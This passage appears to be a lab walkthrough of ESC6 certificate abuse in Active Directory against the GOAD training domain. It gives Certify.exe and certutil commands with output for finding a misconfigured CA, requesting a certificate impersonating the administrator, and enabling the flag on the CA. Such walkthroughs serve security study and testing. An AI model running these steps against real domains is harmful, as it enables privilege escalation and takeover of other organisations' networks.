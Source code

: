 ### Exploitation

**Note:** Since the Microsoft hardening released in KB5014754 (May 10, 2022), certificates issued via a CA that still has EDITF_ATTRIBUTESUBJECTALTNAME2 enabled must contain the new SID security extension or rely on weak mapping modes; otherwise logon is refused. ESC6 exploitation therefore commonly requires ESC9 or ESC10 conditions as well.

Find CAs with EDITF_ATTRIBUTESUBJECTALTNAME2 flag set:

```bash
Certify.exe find /vulnerable

[!] Vulnerable Certificates Templates :
[!] Certificate Authority has EDITF_ATTRIBUTESUBJECTALTNAME2 flag set!

    Enterprise CA Name            : ESSOS-CA
    DNS Hostname                  : braavos.essos.local
    FullName                      : braavos.essos.local\ESSOS-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=ESSOS-CA, DC=essos, DC=local
    UserSpecifiedSAN              : Enabled (ESC6)
```

Request certificate with arbitrary SAN using any template:

```bash
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:User /altname:administrator@essos.local

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\missandei
[*] Template                : User
[*] Subject                 : CN=missandei, CN=Users, DC=essos, DC=local
[*] AltName                 : administrator@essos.local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 13
```

Even though template doesn't allow subject specification, 
ESC6 allows it through the CA configuration

### Enabling the Flag (if you have CA admin rights). Enable the dangerous flag on GOAD CA:

```bash
certutil -config "braavos.essos.local\ESSOS-CA" -setreg CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2

CertUtil: -setreg command completed successfully.
```

Restart certificate services:
